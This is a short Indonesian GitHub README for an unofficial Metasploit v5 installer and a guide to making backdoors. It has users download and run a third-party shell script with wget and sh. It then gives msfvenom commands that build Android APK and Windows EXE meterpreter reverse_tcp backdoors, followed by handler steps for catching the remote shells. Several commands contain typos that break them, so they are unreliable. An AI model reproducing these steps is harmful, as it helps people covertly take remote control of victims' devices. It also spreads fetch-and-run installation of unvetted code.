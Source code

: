 ## Metasploit-Framework-v5
Metasploit Versi lima kini sudah hadir dengan cara 
Installasi lebih mudah dengan sendirinya. System yang 
Setiap hari di update. Selain itu sekarang juga 
Sudah berkembang Metasploit Framework Sudah di Versi 5
Dari yang sebelumnya di versi 4.1.1
<br>
![alt text](https://github.com/INDOnimous/Metasploit-Framework-v5/blob/master/ss.png)
<br>
## Cara install Termux And Linux 

```fish
wget https://raw.githubusercontent.com/INDOnimous/Metasploit-Framework-v5/master/INDOsploit-V5.sh
sh INDOsploit-V5.sh
msfconsole 
```
### INDOnimous Homeland Scurity
•Untuk menjalankan Terminal Ketik ```msfconsole ```<br>
•Untuk membuat payload ```msfvenom ```<br>

### Cara membuat Payload apk Backdoor 
• Android 
``` fish
msfvenom -p android/meterpreter/reverse_tcp LHOS=(your IP/sah) LPORT=4444 R> /sdcard/INDOnimous.apk
```
• Windows
``` fish
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your IP/sah) LPORT=4444 f> /desktop/INDOnimous.exe
```
### Setting database Metasploit
• Android 
```fish
1. use exploit/multi/handler 
2. set payload/meterpreter/reverse_tcp
3. set lhost (you ip/ssh)
4. set lport 4444
5. exploit
```

• Windows
```fish
1. use exploit/multi/handler 
2. set windows/meterpreter/reverse_tcp
3. set lhost (you ip/ssh)
4. set lport 4444
5. exploit
```
